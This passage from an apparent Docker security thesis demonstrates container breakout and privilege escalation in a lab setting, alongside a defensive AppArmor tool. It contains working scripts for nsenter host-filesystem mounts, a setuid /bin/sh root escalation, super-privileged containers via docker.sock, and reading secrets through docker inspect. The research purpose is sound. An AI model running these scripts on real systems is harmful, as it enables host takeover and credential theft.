        ptrace (read,trace), #needed for nsenter to ptrace pid
        capability sys_ptrace, #needed for nsenter to ptrace pid
        mount, #needed for attack to host (script 3) to do the mount bind
        umount, #Needed for part 4 (script 7)
        capability dac_override, #needed for attack to host (script 3)
        capability mknod, #needed for part 1 (script 4)
}
\end{lstlisting}

This profile allows the ptrace system call to be used towards others, allows any mount and umount without any conditions, mounting anywhere with any options and lastly, allows the addition of several capabilities which will be explained sequentially as we encounter each of them. Some of the capabilities are already explained in previous examples: Capabilities sys\_chroot, sys\_admin and sys\_ptrace
are required due to the use of nsenter which aims to enter host.

Afterwards, the attacker inside the container will get into the attacking directory and commit the attack by executing a series of scripts. We divided the larger script of the attack into smaller pieces, each of which solves one part of the overall task:

\begin{lstlisting}[style=dockercommands]
# cd /home/ubuntu/Security-on-Docker/Attacks/Nsenter/Mount_hosts_filesystem
# ./3_attack_to_host.sh
# ./4_attack_to_container_part1_mount.sh
# ./5_attack_to_container_part2_device.sh
# ./6_attack_to_container_part3_mount.sh
# ./7_attack_to_container_part4_device.sh
\end{lstlisting}

Below we explain the scripts used for this attack one by one, matching them with the capabilities provided by the AppArmor profile.
\\

The first script, 3\_attack\_to\_host.sh, targets the host's side. It creates a directory inside the running container through its filesystem layers on host.

Docker containers use a layered filesystem. When you use a base image - FROM command in Dockerfile - a new layer is created on top of the base image's layers.

The new layer can be found in host's filesystem, under the directory /var/lib/docker/aufs/diff and it shows only the changes made on the base image's layer - what was added, deleted, overwritten. As a result, a total re-encoding of the entire contents of the filesystem can be omitted and only this top layer has to be encoded. At the built phase the container merges these layers into a single coherent view. The file the attacker creates on host inside the diff layer of the running container, is directly visible inside the container. This action is definitely discouraged to commit as we're modifying lower layers, which is equivalent to directly modifying the image and that constitutes an anti-pattern.

Then, a directory is also created in host's filesystem - remember that although the attacker runs his own container, he had managed to get in host's filesystem via nsenter - and a bind mount is done between this new directory and the one created in container's diff layer. The mount is visible to the host, however nothing is yet configured to the container. This happens because the container does not share the same mount namespace with host. Thus, a bind-mount created outside the container is not visible inside the container and directory doot inside the container is still empty.

Later in this script, the attacker executes some commands on host in order to gain more information about the mount made on host and the directory that he intends to mount to the container - restricted\_area directory.

This script's task requires the capability dac\_override so that it is possible for the attacker to bypass any file permissions and be able to create directories and files. Moreover, the mount rule added in AppArmor profile is required for the tasks that include mount commands, as in the following script.

\begin{lstlisting}[style=shellscript, caption={3\_attack\_to\_host.sh}]
#!/bin/sh

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Attacker's container is using nsenter to enter host's filesystem so from now on we will refer to attacker's container namespaces as host's namespaces - especially mount namespace and host's filesystem.

#Layers in container's filesystem
ls /var/lib/docker/aufs/diff | grep -v removing | grep -v init
#Choose one and create a dir there
#Which one? Check in container's root directory to see if doot dir appears. If not run again this script, choosing another layer
echo "Please give layer's id:"
read layer

#If doot does not exist already in the attacked container's / dir, create new directory doot
if [ ! -d /var/lib/docker/aufs/diff/${layer}/doot ]; then
        mkdir /var/lib/docker/aufs/diff/${layer}/doot
fi

#In host's filesystem, if restricted_area does not already exist, create dir restricted_area
if [ ! -d ${attack}/restricted_area ]; then
        mkdir ${attack}/restricted_area
fi

#Create a file in host's restricted_area
touch ${attack}/restricted_area/HellloFromTheOtherSide

#Then mount a host directory to container's doot directory
mount -o bind ${attack}/restricted_area /var/lib/docker/aufs/diff/${layer}/doot

#Find mountpoint of restricted_area's filesystem and which filesystem is that - special device that needs to be created
df ${attack}/restricted_area | grep / > fs_of_restricted_area #We use grep / to omit first line with titles of columns
#Keep the filesystem/device
cut -d' ' -f1 fs_of_restricted_area > sdev_of_fs
sdev_fs=$(cat sdev_of_fs)
#ls -l to find the real device not the mapping that we got at /dev/disk/by-uuid
ls -l ${sdev_fs} > sdev_of_fs1
awk '{ print $NF }' sdev_of_fs1 > sdev_of_fs2
cut -d'/' -f3 sdev_of_fs2 > sdev_of_fs3
mv sdev_of_fs3 sdev_of_fs
#Keep the path where the targeting filesystem is mounted at
cut -d' ' -f8 fs_of_restricted_area > mntpoint_of_fs
mnt_of_fs=$(cat mntpoint_of_fs)
cat /proc/self/mountinfo > mountinfo
#Find the subdirectory of the filesystem that is mounted at mntpoint_of_fs
awk -v mnt="${mnt_of_fs}" '{if ($5==mnt) {print $3}}' mountinfo > mntinfo
#Find the major and minor number of the device that needs to be created
cut -d':' -f1 mntinfo > major_num
cut -d':' -f2 mntinfo > minor_num

#Clear files
rm fs_of_restricted_area
rm mountinfo
rm mntinfo
rm mntpoint_of_fs
\end{lstlisting}

The second script that is run, 4\_attack\_to\_container\_part1\_mount.sh, is the one which lets the attack to the container begin. It configures the attack, by detecting the running container that will be attacked, finding its container id and its process's PID. The attacker here uses the docker client to detect the containers running on host. This is possible because of the mount of docker.sock to attacker's container at runtime - more information about the docker socket on section \textit{Access to Docker Daemon}. The part of the attack to the container in this script consists of the creation of a special device and a directory inside the container. The device that is created in the container is similar to one on the host - same type, major and minor number which we extracted with the previous script. In script 3\_attack\_to\_host.sh we found out the host's filesystem that contains the directory restricted\_area. We then found out the path on which that filesystem is mounted at and which subdirectory of that filesystem is mounted at the same path. That subdirectory is the identical device of the one created on the container. The purpose of this device's creation will be explained on the next script.

What makes it possible for the attacker to see host's devices is the flag --device /dev/vda1 - we used this flag in docker run a priori but in fact that requires a pre-research about which device will be used at script 3\_attack\_to\_host.sh on behalf of the attacker. Moreover, the creation of the device on the container requires capability mknod which is allowed by the AppArmor profile enforced.

\begin{lstlisting}[style=bashscript, caption={4\_attack\_to\_container\_part1\_mount.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#List all running containers and keep the one including the name attacked_nsenter
docker ps | grep attacked_nsenter > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#Files from script 3_attack_to_host.sh
major=$(cat major_num)
minor=$(cat minor_num)
dev="/dev/$(cat sdev_of_fs)"

#Done by attacker inside host
#Attack the container using nsenter
#Create a special device
nsenter --target ${container_pid} --mount --pid mknod --mode 0600 ${dev} b ${major} ${minor}
#Create a directory - /tmpmount
nsenter --target ${container_pid} --mount --pid mkdir -p /tmpmount
\end{lstlisting}

The next script, 5\_attack\_to\_container\_part2\_device.sh, commits one single action: mounts the host's special device to directory tmpmount. 

This action mounts the entire host's filesystem to container's directory tmpmount. Before, we mentioned that any bind-mount created outside the container is not visible inside the container. Therefore, the attacker needs to do the bind-mount inside container's namespaces. If he tries to do it directly, as it is expected, he gets permission denied since mounting is not allowed after the runtime.

Then how would it be possible to make the mount visible to the container? This can be achieved by using the nsenter tool. So, the attacker commits nsenter to target's process and now that the mount is done inside container's mount namespace, if we execute ls /tmpmount we will see host's root directory contents.

The mount has succeeded and the entire host's filesystem is now visible to the container.

\begin{lstlisting}[style=bashscript, caption={5\_attack\_to\_container\_part2\_device.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Files created on previous scripts
container_pid=$(cat PID)
dev="/dev/$(cat sdev_of_fs)"

#Mounting the new device to tmpmount directory
nsenter --target ${container_pid} --mount --pid -- mount ${dev} /tmpmount
\end{lstlisting}

Executing ls /tmpmount in the attacked container before and after the attacker runs 5\_attack\_to\_container\_part2\_device.sh :

\begin{lstlisting}[style=dockercommands]
root@f785aa219433:/# ls tmpmount/
root@f785aa219433:/# ls tmpmount/
bin   home            lib64       opt   sbin  usr
boot  initrd.img      lost+found  proc  srv   var
dev   initrd.img.old  media       root  sys   vmlinuz
etc   lib             mnt         run   tmp   vmlinuz.old
\end{lstlisting}


One more action is left for the attacker to make, in order to mount host's directory restricted\_area to doot's directory. In script 6\_attack\_to\_container\_part3\_mount.sh the attacker bind-mounts the directory restricted\_area to doot directory. Since we have mounted the entire host's filesystem to the container, it is trivial to mount a specific directory. Afterwards, the attack has been completed and the attacker can make use of the mount he has achieved.

\begin{lstlisting}[style=bashscript, caption={6\_attack\_to\_container\_part3\_mount.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#File created on previous script
container_pid=$(cat PID)

#Bind mounting of restricted_area to doot
nsenter --target ${container_pid} --mount --pid -- mount -o bind /tmpmount/${attack}/restricted_area /doot
\end{lstlisting}

Executing ls /tmpmount in the attacked container before and after the attacker runs 6\_attack\_to\_container\_part3\_mount.sh :

\begin{lstlisting}[style=dockercommands]
root@f785aa219433:/# ls doot/
root@f785aa219433:/# ls doot/
HellloFromTheOtherSide
\end{lstlisting}

Lastly, we run script 7\_attack\_to\_container\_part4\_device.sh to clean up after ourselves, unmounting the whole host filesystem. The bind-mount is unaffected if we execute only the first umount command. If we want to clean up our footprints totally we can execute the second umount command, as well. This script requires the umount rule which we encountered in the AppArmor profile.

\begin{lstlisting}[style=bashscript, caption={7\_attack\_to\_container\_part4\_device.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Files created on previous scripts
container_pid=$(cat PID)

#Umount host's directory from tmpmount
nsenter --target ${container_pid} --mount --pid -- umount /tmpmount
#Umount host's restricted_area from doot when the attack is over
nsenter --target ${container_pid} --mount --pid -- umount /doot

#Clear files
rm PID
rm dockerps
rm containerid
rm major_num
rm minor_num
rm sdev_of_fs*
\end{lstlisting}

\subsection{SecureWilly vs Nsenter attacks}
In the reverse engineering phase of developping SecureWilly, we first examined the attacker's AppArmor profile. We had two options to stop the attacks we examined in the previous section through the profile: deny capabilities or deny ptrace operations. 

Denying capabilities was not the right choice because it would restrict the user more than preventing some instances of attacks. For instance, SYS\_ADMIN capability could satisfy other purposes except for an attack so we could not deny it by default, and the same approach goes with any other capability needed on each instance.

Denying ptrace read and trace operations could not constitute a solution either as it limited user's abilities for tracing the processes inside his container, which does not cross the lines of isolation.

Therefore, an attacking container which uses nsenter for a container breakout could not be stopped by SecureWilly. Nonetheless, SecureWilly can be used by a container to protect itself from an attack like that, either the attack is minimal or it is a more complex one.

We considered that, on the attacked side, the only rule that could be extracted in order to preserve isolation in a generic way was denying the ptrace readby and tracedby operations in target's container profile. That rule protects a container from any attacker who tries to break into it, because they cannot trace it and enter its namespaces.
 
Thus, we added in the static part one more rule: \textbf{deny ptrace (readby, tracedby)}

\begin{mdframed}[backgroundcolor=tipcolor]
\textbf{Tip}: A very similar to nsenter tool, is the nsinit tool. Docker offers its own library for managing containers called libcontainer and the tool nsinit belongs to it. It allows the user direct access to the linux namespace and cgroup kernel features. We have not used it in our research but it should be examined as future work.
\end{mdframed}

\section{Access to Docker Deamon}
\subsection{Who can use Docker?}
A user who has access to the docker daemon has the ability to use the docker client - also known as docker CLI - and execute docker commands. This means that this user could manipulate the running containers, enter their environment, learn information about them or even stop them, and create new containers. Consequently, users with access to the docker command line are supposed to be quite powerful and this is the reason why the docker CLI is restricted to root and to members of docker group.

Docker group is a unix set of users which is created as part of Docker installation and is set to be the owner group in file permissions of the unix file socket /var/run/docker.sock. \cite{dockergroup}

There are several risks deriving from adding users to docker group, so we have to be very mindful about who is going to be a member of it.

\subsection{Full administration on Docker}
To begin with, let's see what an attacker who is a member of the docker group on host could do to a running container, besides stopping it which is a malicious action itself. 

Suppose there is a running container on host which uses a docker image that is configured to be run by a non-root user. The attacker described before could enter the container and commit an attack. And the most interesting part is that he can do it being root inside the container. Not with nsenter tool as we examined before but with docker exec command.

\subsubsection{Docker exec}
Docker exec is the official way to get access into a running container. It is a service provided by the docker daemon that allows an additional process to be launched within an existing container. It differs from nsenter tool as nsenter doesn't enter the cgroups, and therefore evades resource limitations.
What makes docker exec a vulnerable feature is the option to run the container with a specific uid (flag -u). This means that even if the docker image is configured in Dockerfile to be run by a non-privileged user, with docker exec the image can be run with any user defined, even with root using flag -u 0. It is a fact, that if an image is configured to be run with a user different than root, having the ability to run it as root could be proven dangerous.

\subsubsection{All members of Docker Group have full access to all docker containers}
If we look at this situation from a distance, we can see the big picture: all users who belong to docker group can be supposed as root for any container. Members of docker group have full administrative access to all Docker commands, allowing them to manage all the images and containers, regardless of their origin and owner.

Docker's approach does not include admin segregation controls, where different users can be granted with different admin rights to different containers and that makes docker group a vulnerability.

The following diagram describes 'Alice' and 'Bob', two UNIX users, member of docker group.

\begin{figure}[h!]
  \centering
   
\includegraphics[width=0.85\linewidth]{./figures/dockergroupgm.png}
   \caption{Docker Group Members on Docker Engine}
\end{figure}

Both Alice and Bob, not only have full control of their own containers but of all docker containers running on host as well.

\subsection{User Privilege Elevation}
Being able to run a docker container as root could eventually lead in getting root on host, as we explained in section \textit{Running as root}. The example that was examined in that section - \textit{Running as root: What can an attacker do with root user?} - is representative of how a standard non-root user who is granted with membership to docker group can easily surrogate into the 'real root' account on the host, only with some host resources provided - /etc/ dir is mounted in the specific example.

Let's see another example, to have a more recent and clear picture of that vulnerability.

Suppose there is a non-root user on host who is member of the docker group and runs an ubuntu image as root, while mounting host's directory /bin/ to a directory inside the container (/attack\_bin). 

This container's image is created with the following minimal Dockerfile:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for docgroup image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

COPY 2_attack_inside_the_container.sh .
ENTRYPOINT /bin/bash
\end{lstlisting}

And then start the container with the following commands:
\begin{lstlisting}[style=dockercommands]
$ docker build . -t docgroup
$ docker run --rm -it -v /bin/:/attack_bin docgroup
\end{lstlisting}

The script that is copied inside the container by the attacker is given below:
\begin{lstlisting}[style=shellscript, caption={2\_attack\_inside\_the\_container.sh}]
#!/bin/sh

chown root:root /attack_bin/sh
#chmod a+s: a:all users, +s:If someone else runs the file, they will run the file as the user/group who created it.
chmod a+s /attack_bin/sh
\end{lstlisting}

The attacker runs this script inside the container and then the container may be stopped. What this script does, is changing the ownership of sh file inside the bind mounted volume /attack\_bin and then modifying its permissions by adding the setuid permission for all users. The permission setuid means set user ID upon execution. Therefore, any user who execute /bin/sh on host will run it as its owner, who, in this case, is root. And that's exactly the next step of the attacker on host:

\begin{lstlisting}[style=terminal]
$ cd /bin
$ ./sh
\end{lstlisting}

And then runs the following commands inside the shell or commit any kind of attack he desires:
\begin{lstlisting}[style=terminal]
# whoami
root
# touch /etc/HelloFromTheOtherSide
\end{lstlisting}

If we check the permissions of the new file on host we can see that its owner is root:

\begin{lstlisting}[style=terminal]
$ ls -l /etc/ | grep Hello
-rw-rw-r-- 1 root root       0 Jan 19 20:52 %Hello%FromTheOtherSide
\end{lstlisting}

This attack succeeds only by running the container as root.

Technically, it needs root because this is the only way to change the file permissions of the mounted volume /attack\_bin. When you bind-mount, Docker does not touch the permissions of the directory that it is being mounted in. Thus, a non-root user who is not the owner of host's /bin/ would not be allowed to use chown and chmod to /attack\_bin and that is why the attacker should run the container as root.

Conceptually, the attacker needs root to run the chmod command and add permission setuid to /bin/sh so that he can become root when he executes /bin/sh, otherwise he would become whoever else the owner would be.

Since the container is running as root, there is nothing an AppArmor profile can do, as chown and chmod are anyway allowed to root. This is why we omitted creating a profile in this example.

All in all, users who are members of docker group can easily escalate to root on host, on condition that they run the container as root and some host resources are provided to the container.

Unfortunately, the vulnerabilities that access to docker daemon spawns are not limited to this.

\subsection{Container Privilege Elevation}
Up to this point, we examined how a non-privileged user could become root on host through a docker container, just by being a member of docker group. In this case, the attacker uses the container to grant power by adding privileges directly to himself and commits the attack on host.

A similar elevation of privileges could happen to containers as well. A regular container could “evolve” into a very powerful container, and by powerful we are implying a container capable of taking over the host machine. Here, the attacker does not add privileges to the user but to the container through which he will commit the attack. Red Hat introduced the name super-privileged containers to describe these “powerful” containers. 

\subsubsection{Unprivileged, Privileged, Super-Privileged}
First of all, we shall explain the levels of privilege that a container can grant. 

\begin{description}[style=nextline]
\item[Unprivileged containers]
By default, containers run in unprivileged mode. By an unprivileged container, we are describing a regular container, which is highly isolated, keeping its own, contained view of namespaces and the access to host they run on is strictly limited. These containers maintain a process table, network interfaces, file systems, and IPC facilities that are separate from the host. They are allowed to use host's resources
but the range of their commands results in limited ability to interface directly with the host. Lastly, it is not possible to run Docker daemon inside them. \cite{redhatspc}

\item[Privileged containers]
Privileged containers are more powerful than unprivileged because they are capable to interfere with host on a bigger scale, but they still do not get total control of the host.

A privileged docker container is given access to all host's devices, lifting all the limitations enforced by the device cgroup controller, allows the creation of all linux devices and grants all capabilities - if not dropped manually or denied by AppArmor.

When using a privileged container, as it is expected, some security features are disabled. One of them is the user namespaces, as they are incompatible with privileged containers. The container must run in the host user namespace when running privileged mode. Another feature that is disabled is the mounting of file systems as readonly, thus any filesystem that it is mounted to the container provides all the permissions to the users.

As we described in section \textit{Kernel Capabilities}, a privileged docker container can be started by using the flag --privileged in docker run command.

\item[Super-Privileged Containers]
By the term super-privileged containers we refer to a concept introduced in Project Atomic Blogs by Red Hat, where containers are supposed to run in a specific way. \cite{troubledocker}

What could possibly make a container more privileged than the “privileged” containers? Privileged containers expose part of the host to the container but namespaces are still in the way, making some host's parts not visible to the container, such as the processes of the system, the local network, etc. The need of some containers to have access to those parts gave birth to the SPCs' concept.

The idea of Super-Privileged containers refers to a way of running certain types of containers, not to a feature that when it is enabled, a container becomes super-privileged directly. SPC is defined as a container that runs with security turned off (--privileged) and turns off one or more of the namespaces, either by using the suitable flags for the supported namespaces or by mounting host volumes for mount namespace. \cite{spcbydanwalsh}. This results in exposing more of the host operating system.
SPCs term is not a \say{standard}, it's a group of options to enable on a privileged container. 

Among those options, are the flags that disable namespaces which we discussed in section \textit{Disabling Namespaces}.

In the most privileged version, the SPC will use only the mount namespace. It should be able to run without the PID, NET, IPC or UTS namespaces, but it should bring parts of the OS or the entire root's directory into the container, using volume mounts.

The purpose of SPCs is to access, monitor, and possibly change features on the host system directly or even manipulate other containers. However, if a malicious user achieves to have such a container, then he can take control of the underlying host.
\end{description}

\subsubsection{Docker Socket}
Now let's go back to the container privilege elevation that could happen through access to docker daemon.

This action requires an almost unprivileged container in order to succeed. Flag privileged does not have to be enabled, the only caveat is that this container needs access to Docker UNIX socket /var/run/docker.sock.

/var/run/docker.sock is the UNIX socket that Docker daemon is listening to. In Linux, sockets are used to allow different processes to communicate with one another and docker.sock is used to communicate with the main Docker process. Since everything in Linux is a file, sockets are files too and thus we can share it with containers. As simple as that, with docker.sock we can have containers using the docker client.

Sharing the docker.sock is possible by running the container with one of the following volume mount options:

\begin{itemize}
\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /var/run/docker.sock:/var/run/docker.sock …
\end{lstlisting}
Direct access to the docker socket

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /var/run:/var/run …
\end{lstlisting}
Access to /var/run directory

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /var:/var…
\end{lstlisting}
Access to /var directory

\item \begin{lstlisting}[style=dockercommands]
$ docker run -v /:/host …
\end{lstlisting}
Access to root file system (where docker socket is located)
\end{itemize}

As we discussed in section \textit{Disabling Namespaces: Mounting host's filesystem}, the closer we get to root's directory ( / ) in host's filesystem tree, the more exposed the host will be. Therefore, if docker.sock has to be mounted, the first command is the most preferable.
\\
 
In the following example, we will see how an unprivileged container who runs as root and has access to docker daemon can launch a super-privileged container.
The attacker runs the unprivileged container as root. \cite{hosttakeover}

The Dockerfile the attacker will use for his attack is the following:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile used for spc\_example image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

#Install Docker
RUN apt-get update && apt-get install docker.io -y
#Copy the script attack inside the container
COPY spc.sh /
ENTRYPOINT /bin/bash
\end{lstlisting}

As you can see, all he needs to do is to install the docker package in his image and copy his script attack in the container. After the image is built by the previous Dockerfile, the attacking container is started as below:

\begin{lstlisting}[style=dockercommands]
$ docker build . -t spc_example
$ docker run --rm -it --security-opt "apparmor=spc_attacker" -v /var/run/docker.sock:/var/run/docker.sock spc_example
\end{lstlisting}

The profile used in the docker run command is almost plain:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile spc\_attacker}]
#include <tunables/global>

profile spc_attacker flags=(attach_disconnected,mediate_deleted) {
        file, #This rule is needed so that I can work with files (create files/directories, copy, etc)
        signal,
}
\end{lstlisting}

This is because the container is making use only of the docker.sock, thus no capabilities or other rules are needed. If we execute ls we get the following output: 

\begin{lstlisting}[style=dockercommands]
root@e4005f120782:/# ls -l /var/run/docker.sock
srw-rw---- 1 root 999 0 Jan 22 16:04 /var/run/docker.sock
\end{lstlisting}

This informs us about the owner's UID and GID of docker.sock, which is no other than root and docker group, respectively. The reason why we can only see the numeric id of docker group and not its name is that the command is run inside the container where the group does not exist and so only the GID - 999 - is known. We can also be informed about the owner's permissions on the socket which are read, write and secure deletion and since we are root we have everything we need for the attack. Therefore, the AppArmor profile is not in a position to allow anything more for the attack. Unfortunately, this also means that we cannot use SecureWilly to protect us from such an attack.

The attacking script that will be executed inside attacker's container is given below:

\begin{lstlisting}[style=shellscript, caption={spc.sh}]
#!/bin/sh

echo "====== Running privileged container ======"
docker run --rm -it --privileged --net=host --ipc=host --uts=host --pid=host -v /:/HostsFS ubuntu
\end{lstlisting}

What happens after the container is up, is trivial; the attacker executes the script and creates a super-privileged container which has full access to the host's machine. The attacker achieves to enter the host and commit malicious actions.

\begin{lstlisting}[style=terminal]
root@e4005f120782:/# ./spc.sh
====== Running privileged container ======
root@docker-security:/# ls
HostsFS  boot  etc   lib    media  opt   root  sbin  sys  usr
bin      dev   home  lib64  mnt    proc  run   srv   tmp  var
root@docker-security:/# cd HostsFS/
root@docker-security:/HostsFS# ls
ThisIsHostsFileSystem  initrd.img.old  proc  usr
bin                      lib             root var
boot                     lib64           run   vmlinuz
dev                      lost+found      sbin  vmlinuz.old
etc                      media           srv
home                     mnt             sys
initrd.img               opt             tmp
root@docker-security:/# touch HelloFromTheOtherSide
\end{lstlisting}

Creating a file inside root's directory is just an \say{innocent} proof of the attacker's write access inside root. We can run ls from the host to verify that the attacker has succeeded:

\begin{lstlisting}[style=terminal]
ubuntu@docker-security:~/SecureWilly/Attacks/DockerSock/create_spc$ ls -l / | grep Hello
-rw-r--r--   1 root root     0 Jan 24 01:41 %Hello%FromTheOtherSide
\end{lstlisting}

As we mentioned before, in the example we just executed, an AppArmor profile is not able to stop the attack. 

If we look into the requirements of the attack, we will uncover that running as root is the basic obstacle that makes us fail to prevent the attack with AppArmor. Mounting docker.sock is not unbeatable if we run the container as a non-root user.

So, at first sight, it seems that running as non-root would constitute the solution. Unfortunately, this is not entirely true. There is still a way to make this type of attack work without running as root and we will examine it in the next subsection.

\subsection{Access host's docker.sock without root}
\subsubsection{Docker socket's GID}
How could host's Docker engine be used by a non-root user inside a container?

First of all, this action requires the user namespace to be disabled. In order to communicate with host's docker daemon, we have to gain access permissions to docker socket.

Let's see again the output of ls command on the socket (this can be executed on any container that mounts host's /var/run/docker.sock):

\begin{lstlisting}[style=terminal]
userA@b6467935cf0b:/$ ls -l /var/run/docker.sock
srw-rw---- 1 root 999 0 Jan 23 23:43 /var/run/docker.sock
\end{lstlisting}

The owner's UID is not useful to us, since we want to run as non-root user this time.
However, the GID of docker.sock is the key to our problem. As we explained before, the name of the group is not visible inside the container, where we run the ls command, because the group does not exist there. We only see the numeric id of that group (999), which is not other than docker group on the host.

An attacker who belongs to docker group is capable to add any other user of a container to this group, by entering the container as root, with docker exec -u 0. This is also an example of how docker exec can do more harmful actions than just handling files. 
Then the non-root user has to re-log in and that's it, he can use the docker client without being root.

Let's see an example where the attacker applies this trick.
\subsubsection{Docker inspect and environment variables}
In the following example, we confront an attack which can be classified not only under container breakouts but also under compromising secrets attacks. The vulnerability responsible for the compromising secrets part of the attack is the passing passwords through docker environment variables

Suppose there is a container running which used an environment variable to pass a secret password. This container was started with the following command:

\begin{lstlisting}[style=dockercommands]
$ docker run --name attacked_container --rm --security-opt "apparmor=socket_attacked" -e Password=SuperSecretPassword -t -i ubuntu:latest
\end{lstlisting}

The AppArmor profile which was used by the container is created so that it will allow the attack to happen with the least possible rules. Below there is the socket\_attacked profile:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile socket\_attacked}]
#include <tunables/global>

profile socket_attacked flags=(attach_disconnected,mediate_deleted) {

        file,  #This rule is needed so that I can work with files (create files/directories, copy, etc)
        ptrace (readby, tracedby),
}
\end{lstlisting}

On the attacker's side, there is a container which should be built using the following Dockerfile:

\begin{lstlisting}[style=Dockerfile, caption={Dockerfile for attacked container's image}]
FROM ubuntu:latest
MAINTAINER Fani Dimou <fani.dimou92@gmail.com>

#Install Docker
RUN apt-get update && apt-get install docker.io -y

#Add a non-root user and fix password
RUN useradd userA && echo "userA:A" | chpasswd

#Create a directory belonging to userA
#fix the permissions and copy the attack script in there
RUN mkdir Attack
RUN chown userA:userA /Attack
RUN chmod 744 /Attack
COPY 4_attack.sh /Attack

#Copy the script which the attacker will use with docker exec
COPY add_user_to_docker_group.sh /

WORKDIR /
USER userA
ENTRYPOINT /bin/bash
\end{lstlisting}

The build and run command are given below:

\begin{lstlisting}[style=dockercommands]
$ docker build . -t docker_socket_attack
$ docker run --name attacker --rm -it --security-opt "apparmor=socket_attacker" -v /var/run/docker.sock:/var/run/docker.sock docker_socket_attack
\end{lstlisting}

The AppArmor profile used for the attacker's profile is the following:

\begin{lstlisting}[style=Dockerfile, caption={AppArmor profile socket\_attacker}]
#include <tunables/global>

profile socket_attacker flags=(attach_disconnected,mediate_deleted) {
        file, #This rule is needed so that I can work with files (create files/directories, copy, etc)
        #Allow attack to Host
        signal,
        capability setuid,
        capability setgid,
}
\end{lstlisting}

The capabilities setuid and setgid will allow the attacker to re-login as the non-root user and achieve to create a new login session as the same user - using su command - so that the group changes which will happen later can be applied. 
\\

Now, the container is up, but the attacker cannot use docker client yet. On the host side the attacker has to run the following script in order to enter the container as root and add the non root user to docker group:

\begin{lstlisting}[style=shellscript, caption={3\_exec\_as\_root\_to\_wannabe\_attacker.sh}]
#!/bin/sh

#List the running containers and find the one that belongs to the attacker
docker ps | grep attacker > dockerps
#Keed the container id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)

#Enter the running container as root and execute a script in it
docker exec -u 0 ${container_id} ./add_user_to_docker_group.sh

#Clear the files used
rm dockerps
rm containerid
\end{lstlisting}

The script which the attacker executes as root inside the running container is given below:

\begin{lstlisting}[style=shellscript, caption={add\_user\_to\_docker\_group.sh}]
#!/bin/sh

#!/usr/bin/env bash
# Based on https://github.com/jenkinsci/docker/issues/196#issuecomment-179486312

DOCKER_SOCKET=/var/run/docker.sock
DOCKER_GROUP=docker
REGULAR_USER=userA

#If docker.sock exists
if [ -S ${DOCKER_SOCKET} ]; then
        #Find the GID of docker.sock
        DOCKER_GID=$(stat -c '%g' ${DOCKER_SOCKET})

        #Check if docker group exists
        exists=$(cat /etc/group | grep ${DOCKER_GROUP})
        if [ -z "$exists" ]; then
        #If group docker does not already exist
                #create group with the given gid and name
                groupadd -for -g ${DOCKER_GID} ${DOCKER_GROUP}
                #Modify user's group so as docker group is added
                usermod -aG ${DOCKER_GROUP} ${REGULAR_USER}
        else
        #If docker group exists
                #Modify docker group so as to have the given id and name
                groupmod -g ${DOCKER_GID} ${DOCKER_GROUP}
                #Modify user's group so as docker group is added
                usermod -aG ${DOCKER_GROUP} ${REGULAR_USER}
        fi
fi
\end{lstlisting}

In this script, the attacker creates - or modifies if it already exists - a group with host's gid of docker group, with the name docker group and then adds the non-root user to it by modifying the group set that the user is member of. The changes to docker group has been made and the host side part of the attacker is completed.

In order for the changes to be applied though, the non root user within the container has to re-login and start a new login session as the same user. This can be accomplished by using the command su.
Afterwards, the attacker is ready to use docker client and run the attacking script. Let's take a look at this script:

\begin{lstlisting}[style=shellscript, caption={4\_attack.sh}]
#!/bin/sh

#List the running containers and find the one we want to attack
docker ps | grep attacked_container > /Attack/dockerps
#Keed the container id
cut -d' ' -f1 dockerps > /Attack/containerid
container_id=$(cat /Attack/containerid)
#Find information about this container
docker inspect ${container_id} > /Attack/inspect_output

#Clear the files used
rm /Attack/dockerps
rm /Attack/containerid

#Print any information that includes keyword Password
cat /Attack/inspect_output | grep Password
\end{lstlisting}

In the script above, the attacker uses docker commands to detect a specific container and when he targets it, he uses the tool docker inspect to learn information about this container. As a result, all environment variables and its values are visible to the attacker and among them there is an environment variable which includes the password to a service. The attacker learns this password and he is now capable to use the service it unlocks.

All these actions that should be done from the attacker's container side are given below:

\begin{lstlisting}[style=terminal]
userA@4b9c8fdfac11:/$ su userA
Password:
$ whoami
userA
$ groups userA
userA : userA docker
$ cd Attack
$ ls
4_attack.sh
$ ./4_attack.sh
                "Password=SuperSecretPassword",
\end{lstlisting}

A tip to avoid the eventual leak of secrets is not using environment variables for passing secrets.

